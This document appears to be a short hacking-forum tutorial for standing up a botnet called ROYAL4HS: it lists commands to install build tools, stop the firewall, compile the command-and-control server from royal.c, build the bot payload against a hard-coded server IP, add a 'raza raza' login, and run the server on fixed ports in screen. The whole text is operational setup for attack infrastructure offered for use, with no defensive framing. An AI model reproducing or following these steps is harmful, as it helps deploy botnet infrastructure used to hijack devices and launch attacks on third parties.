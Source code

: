 Tut Made My ROYAL4HS
----------------------------
Put server Ip in bot_ROYAL4HS.c						 
--------------------------------------------------------------------
yum install python-paramiko nano screen gcc perl wget lbzip unzip -y
--------------------------------------------------------------------
service httpd restart 
service iptables stop
--------------------------------------------------------------------
gcc royal.c -o server -pthread
--------------------------------------------------------------------
python royal.py bot_ROYAL4HS.c 51.89.62.246  (Server IP)
--------------------------------------------------------------------
echo raza raza >>Login.txt
------------------------------
screen ./server 1111 1 8882
------------------------------
If Doesn't Screen
------------------------------
yum install screen
------------------------------
pkill screen
------------------------------
screen ./server 1111 1 8882
